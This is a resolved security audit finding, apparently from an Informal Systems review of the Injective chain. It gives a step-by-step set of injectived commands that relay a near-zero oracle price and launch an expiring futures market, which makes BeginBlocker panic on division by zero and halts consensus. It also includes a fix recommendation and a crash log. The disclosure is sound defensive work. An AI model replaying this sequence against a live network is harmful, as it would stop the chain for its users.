 ### IF-INJECTIVE-10
## A sequence of transactions leads to a complete halt of consensus #323

**Status: Resolved**

**Severity**: High   

**Type**: Distributed System Reliability and Fault Tolerance

**Difficulty**: Low

_Surfaced from @informalsystems audit at hash e678a9f_

This is a concrete sequence of transactions that triggers panic in `BeginBlocker` and halts consensus. Related to the theoretical possibility of panic in `EndBlocker` that was discussed in #301.

Here is the sequence of shell commands that should be executed on a clean installation that is initialized with `./setup.sh`:

```sh
EXPIRY=$((`date +%s`+60))
injectived tx oracle grant-price-feeder-privilege-proposal inj atom \
  inj1cml96vmptgw99syqrrz8az79xer2pcgp0a885r --deposit=10000000inj \
  --title="price feeder inj/atom" --description="price feeder inj/atom" \
  --from=user1 --chain-id=888 --broadcast-mode=block --yes
sleep 2
injectived tx gov vote 1 yes --from=genesis --chain-id=888 \
  --broadcast-mode=block --yes
sleep 15
injectived tx oracle relay-price-feed-price inj atom 0.000000000000000001 \
  --from=user1 --chain-id=888 --broadcast-mode=block --yes
injectived tx insurance create-insurance-fund --ticker=inj/atom \
  --quote-denom=inj --oracle-base=inj --oracle-quote=atom \
  --oracle-type=PriceFeed --expiry=$EXPIRY --initial-deposit=10000000inj \
  --from=genesis --chain-id=888 --broadcast-mode=block --yes
sleep 1
injectived tx exchange expiryfuturesmarket-launch inj/atom inj inj atom 2 \
  pricefeed $EXPIRY --title="launch inj/atom" --description="launch inj/atom" \
  --from=user1 --deposit=10000000inj --chain-id=888 --broadcast-mode=block --yes
sleep 2
injectived tx gov vote 2 yes --from=genesis --chain-id=888 \
  --broadcast-mode=block --yes
sleep 40
```

Once the futures market has expired (after 60 seconds), the code in `BeginBlocker` starts the settlement and panics on division by zero:

https://github.com/InjectiveLabs/injective-core/blob/457705b7c0fb95d562a27b68306c9ad060c5b344/injective-chain/modules/exchange/keeper/futures_settlement.go#L154-L156

*See the log output below...*

**Recommendation**

While we obviously recommend fixing the division by zero that is triggered by
this sequence of commands, this issue demonstrates a more general concern. The
code that is executed by `BeginBlock` is very sensitive to `panic`, which
corrupts the application state and stops the node. We recommend to carefully
examine the code that either explicitly calls `panic` or may trigger it (e.g.,
via methods of `sdk.Dec`) and provide reasonable protection against it. It's
also desirable to keep only the necessary logic in `BeginBlock` and `EndBlock`.


**Example of the server output:**

``` NFO[0053] notifying bugsnag: CONSENSUS FAILURE!!!      INFO[0053]
bugsnag.Notify: not notifying in local       ERRO[0053] CONSENSUS FAILURE!!!
err="division by zero" module=consensus stack="goroutine 112
...
...app.(*InjectiveApp).BeginBlocker(...)
```

